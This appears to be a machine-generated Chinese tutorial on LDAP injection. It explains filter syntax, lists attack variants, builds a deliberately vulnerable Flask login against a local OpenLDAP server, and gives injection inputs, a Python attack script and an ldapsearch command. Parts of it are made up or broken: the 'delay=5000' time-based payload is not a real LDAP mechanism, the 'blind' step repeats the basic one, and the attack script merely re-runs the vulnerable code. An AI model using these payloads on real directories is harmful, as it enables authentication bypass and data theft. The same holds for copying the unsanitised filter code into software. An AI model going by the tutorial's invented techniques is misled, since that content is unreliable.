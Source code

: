 # LDAP注入攻击的案例分析

## 1. 技术原理解析

### 1.1 LDAP简介
LDAP（Lightweight Directory Access Protocol）是一种用于访问和维护分布式目录信息服务的应用层协议。它通常用于企业内部的用户认证、授权和资源管理。LDAP查询语句类似于SQL查询，用于从目录中检索信息。

### 1.2 LDAP注入攻击原理
LDAP注入攻击是指攻击者通过在LDAP查询语句中插入恶意代码，从而绕过认证、获取敏感信息或执行未授权操作。LDAP注入攻击的根源在于应用程序未对用户输入进行充分的验证和过滤。

### 1.3 底层实现机制
LDAP查询语句通常由过滤器（Filter）组成，过滤器使用逻辑运算符（如`&`、`|`、`!`）和比较运算符（如`=`、`>=`、`<=`）来定义查询条件。例如，一个典型的LDAP查询过滤器可能如下所示：

```ldap
(&(objectClass=user)(uid=john))
```

如果应用程序未对用户输入进行过滤，攻击者可以通过构造恶意输入来改变查询逻辑。例如，输入`john)(uid=*))(|(uid=*`，过滤器将变为：

```ldap
(&(objectClass=user)(uid=john)(uid=*))(|(uid=*))
```

这将导致查询返回所有用户信息，而不仅仅是`john`。

## 2. 变种和高级利用技巧

### 2.1 基本LDAP注入
基本LDAP注入攻击通过在用户输入中插入特殊字符（如`*`、`(`、`)`）来改变查询逻辑。例如，攻击者可以通过输入`*`来匹配所有用户。

### 2.2 盲注LDAP注入
盲注LDAP注入攻击适用于应用程序不返回详细错误信息的情况。攻击者通过观察应用程序的响应时间或行为差异来推断查询结果。例如，攻击者可以通过构造条件查询来逐字符猜测敏感信息。

### 2.3 时间盲注LDAP注入
时间盲注LDAP注入攻击通过引入时间延迟来推断查询结果。例如，攻击者可以通过构造条件查询，在条件为真时引入延迟，从而判断查询结果。

### 2.4 复合LDAP注入
复合LDAP注入攻击结合多种注入技巧，利用多个漏洞点进行攻击。例如，攻击者可以通过结合基本注入和盲注技巧，逐步获取敏感信息。

## 3. 攻击步骤和实验环境搭建指南

### 3.1 实验环境搭建
为了进行LDAP注入攻击的实验，我们需要搭建一个包含LDAP服务的实验环境。可以使用以下工具和组件：

- **OpenLDAP**：开源的LDAP服务器实现。
- **Apache Directory Studio**：LDAP客户端工具，用于管理和查询LDAP目录。
- **Web应用程序**：一个简单的Web应用程序，用于模拟LDAP注入漏洞。

#### 3.1.1 安装OpenLDAP
在Ubuntu系统上，可以使用以下命令安装OpenLDAP：

```bash
sudo apt-get update
sudo apt-get install slapd ldap-utils
```

安装完成后，配置OpenLDAP并创建测试用户。

#### 3.1.2 安装Apache Directory Studio
从[Apache Directory Studio官网](https://directory.apache.org/studio/)下载并安装客户端工具。

#### 3.1.3 部署Web应用程序
可以使用Python Flask框架快速搭建一个简单的Web应用程序，模拟LDAP注入漏洞。

```python
from flask import Flask, request
import ldap

app = Flask(__name__)

@app.route('/login', methods=['POST'])
def login():
    username = request.form['username']
    password = request.form['password']

    ldap_server = "ldap://localhost:389"
    base_dn = "dc=example,dc=com"
    search_filter = f"(&(objectClass=user)(uid={username}))"

    try:
        conn = ldap.initialize(ldap_server)
        conn.simple_bind_s(f"uid={username},{base_dn}", password)
        result = conn.search_s(base_dn, ldap.SCOPE_SUBTREE, search_filter)
        return "Login successful!"
    except ldap.LDAPError as e:
        return f"Login failed: {e}"

if __name__ == '__main__':
    app.run(debug=True)
```

### 3.2 攻击步骤

#### 3.2.1 基本LDAP注入
1. 访问Web应用程序的登录页面。
2. 在用户名输入框中输入`*`，密码输入框中输入任意值。
3. 提交表单，观察应用程序的响应。如果登录成功，说明存在LDAP注入漏洞。

#### 3.2.2 盲注LDAP注入
1. 访问Web应用程序的登录页面。
2. 在用户名输入框中输入`john)(uid=*))(|(uid=*`，密码输入框中输入任意值。
3. 提交表单，观察应用程序的响应。如果登录成功，说明存在LDAP注入漏洞。

#### 3.2.3 时间盲注LDAP注入
1. 访问Web应用程序的登录页面。
2. 在用户名输入框中输入`john)(uid=*))(|(uid=*)(|(delay=5000)`，密码输入框中输入任意值。
3. 提交表单，观察应用程序的响应时间。如果响应时间明显延迟，说明存在LDAP注入漏洞。

## 4. 实际命令、代码或工具使用说明

### 4.1 使用Apache Directory Studio进行LDAP查询
1. 打开Apache Directory Studio，连接到OpenLDAP服务器。
2. 在查询编辑器中输入LDAP查询语句，例如：

```ldap
(&(objectClass=user)(uid=john))
```

3. 执行查询，观察返回结果。

### 4.2 使用Python进行LDAP注入攻击
可以使用以下Python代码进行LDAP注入攻击：

```python
import ldap

def ldap_injection(username, password):
    ldap_server = "ldap://localhost:389"
    base_dn = "dc=example,dc=com"
    search_filter = f"(&(objectClass=user)(uid={username}))"

    try:
        conn = ldap.initialize(ldap_server)
        conn.simple_bind_s(f"uid={username},{base_dn}", password)
        result = conn.search_s(base_dn, ldap.SCOPE_SUBTREE, search_filter)
        return "Login successful!"
    except ldap.LDAPError as e:
        return f"Login failed: {e}"

# 基本LDAP注入
print(ldap_injection("*", "password"))

# 盲注LDAP注入
print(ldap_injection("john)(uid=*))(|(uid=*", "password"))

# 时间盲注LDAP注入
print(ldap_injection("john)(uid=*))(|(uid=*)(|(delay=5000)", "password"))
```

### 4.3 使用工具进行LDAP注入攻击
可以使用工具如`ldapsearch`进行LDAP注入攻击：

```bash
ldapsearch -x -H ldap://localhost:389 -b "dc=example,dc=com" "(&(objectClass=user)(uid=*))"
```

## 结论
LDAP注入攻击是一种严重的安全威胁，攻击者可以通过构造恶意输入来绕过认证、获取敏感信息或执行未授权操作。通过深入理解LDAP注入攻击的原理和变种，并采取有效的防御措施，可以有效降低LDAP注入攻击的风险。

---

*文档生成时间: 2025-03-12 09:11:16*
